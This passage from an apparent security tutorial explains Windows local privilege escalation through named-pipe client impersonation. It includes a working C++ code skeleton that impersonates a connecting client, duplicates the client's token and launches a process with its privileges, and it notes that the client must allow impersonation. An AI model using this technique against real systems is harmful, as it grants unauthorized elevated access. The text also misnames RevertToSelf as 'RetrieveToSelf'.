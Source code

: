 Let's take a closer look at the LPE method with Client Impersonation!

When the target service or program calls `CreateFile()`, instead of the normal file path, it connects to the attacker's Named Pipe! The 6th argument of the `CreateFile()` function must have the value SECURITY_SQOS_PRESENT | SECURITY_IMPERSONATION or SECURITY_DELEGATION as shown above.

For remote pipes, SECURITY_IMPERSONATION is said to be enforced even if only SECURITY_SQOS_PRESENT is present.

```cpp
// Create a server named pipe
serverPipe = CreateNamedPipe(
    pipeName,           // name of our pipe, must be in the form of \\.\pipe\<NAME>
    PIPE_ACCESS_DUPLEX, // The rest of the parameters don't really matter
    PIPE_TYPE_MESSAGE,	// as all you want is impersonate the client...
    1,		// 
    2048,	// 
    2048,	// 
    0,		// 
    NULL	// This should ne NULL so every client can connect
);
// wait for pipe connections
BOOL bPipeConnected = ConnectNamedPipe(serverPipe, NULL);
// Impersonate client
BOOL bImpersonated = ImpersonateNamedPipeClient(serverPipe);
// if successful open Thread token - your current thread token is now the client's token
BOOL bSuccess = OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &hToken);
// now you got the client token saved in hToken and you can safeyl revert back to self
bSuccess = RevertToSelf();
// Now duplicate the client's token to get a Primary token
bSuccess = DuplicateTokenEx(hToken,
    TOKEN_ALL_ACCESS,
    NULL,
    SecurityImpersonation,
    TokenPrimary,
    &hDuppedToken
);
// If that succeeds you got a Primary token as hDuppedToken and you can create a proccess with that token
CreateProcessWithTokenW(hDuppedToken, LOGON_WITH_PROFILE, command, NULL, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);
```

Once the target client is connected to the attacker's Named Pipe server, the server can LPE with client privileges via the above code. Let's take a look at the main functions.

- `ImpersonateNamedPipeClient()` : Applies the client Impersonation Token to the server thread. The Impersonation Token used is the token for applying the client's Primary Token to the thread.
- `RetrieveToSelf()`: Terminates the Impersonation. It must be executed before the `CreateProcessWithTokenW()` function is called to avoid errors.
- `DuplicateTokenEx()` : Duplicates the client Impersonation Token obtained earlier as the Primary Token for use in the process.
- `CreateProcessWithTokenW()` : Creates a process with client privileges through the Primary Token token. → LPE occurs!
